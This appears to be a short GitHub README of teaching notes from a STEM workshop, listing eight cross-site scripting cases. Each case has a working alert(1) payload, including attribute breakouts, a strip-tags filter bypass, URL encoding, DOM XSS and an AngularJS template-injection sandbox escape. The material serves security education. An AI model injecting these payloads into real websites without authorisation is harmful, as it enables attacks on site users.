 # XSS-Demo

Some popular cases i explained at STEM workshop

**Case 1 [ Simple XSS ]**

Payload : <script>alert(1)</script>

**Case 2 [ JavaScript injection ]**

Payload : “-alert(1)-”

**Case 3 [ XSS Inside html attribute ]**

Payload : “><script>alert(1)</script>

**Case 4 [ XSS Inside html attribute ( Bypassing strip tags filter ) ]**

Payload : “ onmouseover=“alert(1)

**Case 5 [ Bypassing tags matching ( with URL encoding ) ]**

Payload : %22%3E%3Cscript%3Ealert%281%29%3C%2fscript%3E

**Case 6 [ Simple DOM-XSS ]**

Payload : <script>alert(1)</script>

**Case 7 [ DOM-XSS ( Client side template injection with AngularJS ) ]**

Payload : {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}

Angular payloads URL : https://portswigger.net/blog/xss-without-html-client-side-template-injection-with-angularjs

**Case 8 [ JavaScript injection ( Escape JS ) ]**

Payloads : \”-alert(1)//
